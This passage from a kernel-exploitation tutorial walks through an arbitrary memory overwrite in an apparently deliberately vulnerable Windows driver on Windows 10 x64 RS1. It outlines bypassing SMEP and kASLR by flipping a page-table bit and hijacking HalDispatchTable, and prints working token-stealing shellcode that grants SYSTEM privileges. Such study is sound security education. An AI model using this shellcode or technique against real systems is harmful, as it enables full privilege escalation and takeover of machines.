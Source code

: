 The rest of the function looks like this-

![](https://github.com/amitschendel/amitschendel.github.io/blob/master/assets/images/Pasted%20image%2020211224163245.png?raw=true)

We can see a call to `ProbeForRead` which verifies that the `UserWriteWhatWhere` buffer actually resides in the user portion of the address space, and is correctly aligned.
 Then, we see `*v2 = *v1` which Basically does the action of copying the data.


## Analysing The Vulnerability
After we overviewed the code let's understand where and why this code is vulnerable.
As the comment inside the code states:
>This is a vanilla Arbitrary Memory Overwrite vulnerability because the developer is writing the value pointed by 'What' to memory location pointed by 'Where' without properly validating if the values pointed by 'Where' and 'What' resides in User mode.

## Exploiting The Vulnerability
So, we have reviewed the code, understood the vulnerability, and it's time to write our exploit. We are going to write the exploit for  `Windows 10 x64 RS1`, the reason I chose this version is the fact that each new RS Microsoft added more mitigations that made it hard for us to develop kernel exploits.
Starting from RS2 Microsoft introduced `kCFG` which stands for "Kernel Control Flow Guard", this mitigation validate all the `call` instructions and makes sure the memory location in which the function residence is legitimate.
We wont get into how to bypass `kCFG` here, but I will say it's possible, and hopefully on the next write up we will be facing a higher RS version.

In this write up we are going to deal with the following mitigations -
- kASLR (Kernel Address Space Layout Randomization).
- Page Table Randomization.
- NX (No Execute).
- SMEP (Supervisor Mode Access Prevention).

The steps we are going to do is as follows:
1.  Write a shellcode that will steal the system access token and set it to our process.
2.  Allocate `rwx` memory region in user mode for our shellcode.
3.  Changing the `U/S` bit of the `PTE` in which our shellcode was allocated.
4.  Modify one of the pointers inside `HalDispatchTable` to point to our user mode shell code.
5.  Call a syscall to trigger the use of `HalDispatchTable` which will then execute our shellcode as kernel.

Don't worry if you don't understand any of the steps, they will be explained later on.

### Shellcode
I am going to use a common generic shellcode that will copy the system access token to our process.

```asm
[BITS 64]
_start:
	mov rax, [gs:0x188]		; Current thread (_KTHREAD)
	mov rax, [rax + 0xb8]		; Current process (_EPROCESS)
	mov rbx, rax			; Copy current process (_EPROCESS) to rbx
__loop:
	mov rbx, [rbx + 0x2e8] 		; ActiveProcessLinks
	sub rbx, 0x2e8			; Go back to current process (_EPROCESS)
	mov rcx, [rbx + 0x2e0] 		; UniqueProcessId (PID)
	cmp rcx, 4 			; Compare PID to SYSTEM PID
	jnz __loop			; Loop until SYSTEM PID is found
	mov rcx, [rbx + 0x358]		; SYSTEM token is @ offset _EPROCESS + 0x358
	and cl, 0xf0			; Clear out _EX_FAST_REF RefCnt
	mov [rax + 0x358], rcx		; Copy SYSTEM token to current process
	xor rax, rax			; STATUS_SUCCESS
	ret				; Done!
```
